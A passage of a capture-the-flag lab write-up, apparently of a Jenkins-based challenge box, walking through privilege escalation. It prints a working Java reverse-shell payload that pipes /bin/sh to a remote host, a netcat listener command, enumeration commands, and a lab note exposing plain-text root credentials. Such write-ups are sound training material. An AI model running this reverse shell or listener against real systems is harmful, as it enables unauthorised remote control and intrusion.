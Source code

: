 ```sh
String host="10.17.54.2";
int port=2424;
String cmd="/bin/sh"; #You can replace this with cmd.exe for Windows
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

listener

```bash
nc -lvnp 2424
```

hmm: further enumeration :-/

```
jenkins@jenkins:~$ find / -name jenkins.sh 2>/dev/null
```

gives us : `/usr/local/bin/jenkins.sh`

we can probably edit this file so that the Vm runs the script here and get a reverse shell again; :\_; probably FFF. we’ll check this later.

running sudo -l, getcap or checking for suid, crontabs doesn’t bring anything useful.

checking OS:

```
uname -a
```

we get:

```
Linux jenkins 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 GNU/Linux
```

hmm.

enumerating all directories. :\_;

:))))) found note.txt in /opt

```
cat note.txt
Aubreanna,
Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.
root:tr0ub13guM!@#123
```

:P trying the credentials.

![screenshot](/assets/img/thm/internal/15.png)
